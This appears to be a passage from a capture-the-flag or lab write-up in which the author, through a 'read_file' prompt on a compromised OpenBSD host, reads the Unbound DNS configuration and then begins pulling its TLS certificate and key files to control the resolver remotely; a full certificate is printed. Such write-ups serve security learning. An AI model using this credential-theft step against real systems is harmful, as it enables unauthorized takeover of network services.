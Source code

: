 ```
        protocol portal
        forward to <5> port 8002
        forward to <6> port 5000 mode source-hash
}
```

To do this we first have to retrieve the configuration file and look for authentication methods. Luckily for us this is in the default place on openbsd.

```
sm1l3z > read_file /var/unbound/etc/unbound.conf
server:
        interface: 127.0.0.1
        interface: ::1
        access-control: 0.0.0.0/0 refuse
        access-control: 127.0.0.0/8 allow
        access-control: ::0/0 refuse
        access-control: ::1 allow
        hide-identity: yes
        hide-version: yes
        msg-cache-size: 0
        rrset-cache-size: 0
        cache-max-ttl: 0
        cache-max-negative-ttl: 0
        auto-trust-anchor-file: "/var/unbound/db/root.key"
        val-log-level: 2
        aggressive-nsec: yes
        include: "/var/unbound/etc/conf.d/local_zones.conf"

remote-control:
        control-enable: yes
        control-interface: 0.0.0.0
        control-use-cert: yes
        server-key-file: "/var/unbound/etc/tls/unbound_server.key"
        server-cert-file: "/var/unbound/etc/tls/unbound_server.pem"
        control-key-file: "/var/unbound/etc/tls/unbound_control.key"
        control-cert-file: "/var/unbound/etc/tls/unbound_control.pem"
```

We see that authentication happens with a public and private key, so we retrieve all the necessary files to set up `unbound-control` on our machine.

```
sm1l3z > read_file /var/unbound/etc/tls/unbound_server.pem
-----BEGIN CERTIFICATE-----
MIIDoDCCAggCCQDx3ZJ+FQdNnjANBgkqhkiG9w0BAQsFADASMRAwDgYDVQQDDAd1
bmJvdW5kMB4XDTIxMDExMTA3MDExMFoXDTQwMDkyODA3MDExMFowEjEQMA4GA1UE
AwwHdW5ib3VuZDCCAaIwDQYJKoZIhvcNAQEBBQADggGPADCCAYoCggGBALaSthKv
1/LXjUfayIL0K3ThP3vs1+PpaPKPiRkj7VYKL3Q3lvHbCEzmjwFxzrYfykbJnrdm
7pgPVGlWbra2ifSfNokVcC/sblub7GXvUKUWbK5Javr7vI8Eljvn9q28ze9FZz6W
1ZojGXSU9M1KU5kslNTnF4sTLcvU9UJGW37Kv/hGqlN8MYFUCM5jOke94rewUuoT
9xw4cveDnMcHwjBlbSQL6R2e7GQWlU/vb1ntDq1nFE3Bu7tK+JD3Ni9Rt7jTfr/u
ezZPuEg/6z1iKtnmXNOCwZGHS5gOdGRQaf4USnjYy7DaSVwXsOQUpZ6tWptolyp9
BrZM3Q1UHG0OZYCNo04i8kL50a9pVggs7Q0TvSqO2KgYMRj78vNzotPE+8FQpj9+
7glV12BQSuh53lNS32WpwTS1yYfvw2sXt/m+BW5Ts6musGj0AANWd6BZAm735qXQ
nt719NzFQsYv0fcFAmbmgXV1X2ZhwZvxJWGDpsyLlNQKjhTWXb4J32hIzwIDAQAB
MA0GCSqGSIb3DQEBCwUAA4IBgQCmHuw7ol3PfJxidmjDkqJtA+Q4OOqgfHHAoq33
pQe2CbQEk50AZMdezxXN0I7ToOkEkXES6BiKDn7FAlOmElCAvYZhVkq7OwgHSECr
tvwiap5exR9W1cFxojz7ufWWpk+2F3RRJhudmaCMlf5KIFMK4BqNt1aHjsM7rshP
jJ3AsELCSgpOVCuc+Jnq+4IzbNNq55oMVq6k5ETsi4TgFew3gJfMEibF5zVbsXMK
A+cpyhRN+XXD0maS+C2BC2a5kGb8jp5otPXDRsJgJWrPb5irGWY9in7w8ZdOMW6v
FcSaLnz9bQ7q93+dbhPFRbjz+QWahvQyw91muwPmkLCB7OLWedha5tfuW1e4WNjt
PCAMbsSgTHsPgrrm0IoK8AfxJht9wE1Dm4XfmXSGgHU6Q7usscoV0dx47m+vmFYZ
Z1faM16lBqfIDDOHm23bIPkO08BH4VaO7HYXlXQY1RGRYH9NJlkR6+lgduK9DkNM
SeJIPkiQql3fH2trxxZ5i4P23Bk=
```